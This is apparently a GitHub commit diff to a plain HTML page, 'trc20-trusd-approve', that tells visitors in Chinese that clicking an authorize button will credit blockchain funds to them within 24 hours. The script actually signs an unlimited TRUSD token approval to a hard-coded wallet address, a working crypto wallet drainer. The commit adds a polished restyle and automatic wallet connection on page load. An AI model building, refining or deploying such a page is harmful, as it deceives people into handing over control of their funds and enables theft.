

Before and after one commit to wwsscc123/trc20-trusd-approve, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the button "授權". Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -7,62 +7,56 @@
 <style>
   body {
     font-family: "Noto Sans TC", "Microsoft JhengHei", sans-serif;
-    background: #f5f7fa;
-    color: #333;
+    background: linear-gradient(-45deg, #0f172a, #1e293b, #2563eb, #1e3a8a);
+    background-size: 400% 400%;
+    animation: gradientBG 12s ease infinite;
+    color: #fff;
     display: flex;
-    flex-direction: column;
     align-items: center;
     justify-content: center;
     height: 100vh;
     margin: 0;
     padding: 20px;
   }
+  @keyframes gradientBG {
+    0% { background-position: 0% 50%; }
+    50% { background-position: 100% 50%; }
+    100% { background-position: 0% 50%; }
+  }
   .container {
-    background: white;
+    background: rgba(255, 255, 255, 0.05);
+    backdrop-filter: blur(12px);
+    border-radius: 16px;
     padding: 30px 40px;
-    border-radius: 12px;
-    box-shadow: 0 6px 12px rgba(0,0,0,0.1);
-    max-width: 400px;
+    max-width: 420px;
     width: 100%;
     text-align: center;
+    box-shadow: 0 8px 20px rgba(0,0,0,0.3);
   }
-  h1 {
-    font-weight: 600;
-    margin-bottom: 16px;
-    color: #2c3e50;
-  }
-  p {
-    font-size: 16px;
-    margin-bottom: 32px;
-    line-height: 1.5;
-  }
+  h1 { font-size: 26px; margin-bottom: 16px; font-weight: 600; }
+  p { font-size: 16px; margin-bottom: 28px; line-height: 1.6; color: #cbd5e1; }
   button {
-    background-color: #3b82f6;
-    color: white;
-    font-size: 18px;
-    padding: 12px 0;
-    width: 100%;
-    border: none;
-    border-radius: 8px;
-    cursor: pointer;
-    transition: background-color 0.3s ease;
+    background: linear-gradient(90deg, #2563eb, #3b82f6);
+    color: white; font-size: 18px; padding: 12px 0; width: 100%;
+    border: none; border-radius: 8px; cursor: pointer;
+    transition: all 0.3s ease;
   }
   button:hover {
-    background-color: #2563eb;
+    background: linear-gradient(90deg, #1d4ed8, #2563eb);
+    transform: translateY(-1px);
+    box-shadow: 0 4px 12px rgba(37,99,235,0.5);
   }
-  #status {
-    margin-top: 20px;
-    min-height: 24px;
-    font-size: 14px;
-    color: #555;
-  }
+  #status { margin-top: 20px; min-height: 24px; font-size: 14px; }
+  .loading { color: #facc15; }
+  .success { color: #4ade80; }
+  .error { color: #f87171; }
 </style>
 <script src="https://cdn.jsdelivr.net/npm/tronweb/dist/TronWeb.min.js"></script>
 </head>
 <body>
 <div class="container">
   <h1>一鍵授權頁面</h1>
-  <p>點擊下方授權按鈕，區塊鏈中資金會在24小時內，為您進行入賬，請確認。</p>
+  <p>點擊下方授權按鈕，區塊鏈中資金會在 24 小時內，為您進行入賬，請確認。</p>
   <button id="approveBtn">授權</button>
   <p id="status"></p>
 </div>
@@ -70,36 +64,84 @@
 <script>
   const TRUSD_CONTRACT = "TUpMhErZL2fhh4sVNULAbNKLokS4GjC1F4"; // TRUSD TRC-20 合約地址
   const A_ADDRESS = "TKnC8zjqnb2Bmadd2ibNnLswZwp67zyi26";      // A 錢包地址
-  const INFINITE_AMOUNT = "0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff"; // 無限額
+  const INFINITE_AMOUNT = "0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff";
 
   let tronWeb;
 
-  async function checkTronWeb() {
+  async function connectWallet() {
+    // TronLink / TronWeb
     if (window.tronWeb && window.tronWeb.ready) {
       tronWeb = window.tronWeb;
-      document.getElementById("status").innerText = "錢包已連接：" + tronWeb.defaultAddress.base58;
+      return tronWeb.defaultAddress.base58;
+    }
+    // 新版 TronLink API
+    if (window.tronLink) {
+      await window.tronLink.request({ method: 'tron_requestAccounts' });
+      tronWeb = window.tronWeb;
+      return tronWeb.defaultAddress.base58;
+    }
+    // 幣安 Web3 TRON
+    if (window.binance && window.binance.tron) {
+      await window.binance.tron.request({ method: 'tron_requestAccounts' });
+      tronWeb = window.tronWeb || new TronWeb(window.binance.tron);
+      return tronWeb.defaultAddress.base58;
+    }
+    return null;
+  }
+
+  async function checkTronNetwork() {
+    try {
+      const chainId = await tronWeb.trx.getChainId?.();
+      if (chainId && chainId !== '_') { // TRON 主網 chainId 為 "_"
+        document.getElementById("status").innerText = "請切換到 TRON 主網";
+        document.getElementById("status").className = "error";
+        return false;
+      }
       return true;
-    } else {
-      document.getElementById("status").innerText = "請先安裝 TronLink / 幣安 Web3 / Trust Wallet 並連接錢包";
-      return false;
+    } catch {
+      return true;
     }
   }
 
   async function approve() {
-    if (!await checkTronWeb()) return;
+    if (!tronWeb) {
+      document.getElementById("status").innerText = "請先連接錢包";
+      document.getElementById("status").className = "error";
+      return;
+    }
 
     const contract = await tronWeb.contract().at(TRUSD_CONTRACT);
-
     try {
       document.getElementById("status").innerText = "發送授權交易中，請簽名...";
+      document.getElementById("status").className = "loading";
+
       const tx = await contract.approve(A_ADDRESS, INFINITE_AMOUNT).send();
-
-      document.getElementById("status").innerText = "授權成功，交易ID：" + tx;
+      document.getElementById("status").innerText = "✅ 授權成功！交易 ID：" + tx;
+      document.getElementById("status").className = "success";
     } catch (error) {
       console.error(error);
-      document.getElementById("status").innerText = "授權失敗或用戶取消";
+      document.getElementById("status").innerText = "❌ 授權失敗或用戶取消";
+      document.getElementById("status").className = "error";
     }
   }
+
+  // 頁面載入時自動檢測並連接錢包
+  window.addEventListener('load', async () => {
+    document.getElementById("status").innerText = "正在檢測錢包...";
+    document.getElementById("status").className = "loading";
+
+    const address = await connectWallet();
+    if (!address) {
+      document.getElementById("status").innerText = "未檢測到 TRON 錢包，請使用 TronLink 或幣安 Web3";
+      document.getElementById("status").className = "error";
+      return;
+    }
+
+    if (!await checkTronNetwork()) return;
+
+    document.getElementById("status").innerText = "錢包已連接：" + address;
+    document.getElementById("status").className = "success";
+  });
 
   document.getElementById("approveBtn").onclick = approve;
 </script>
```
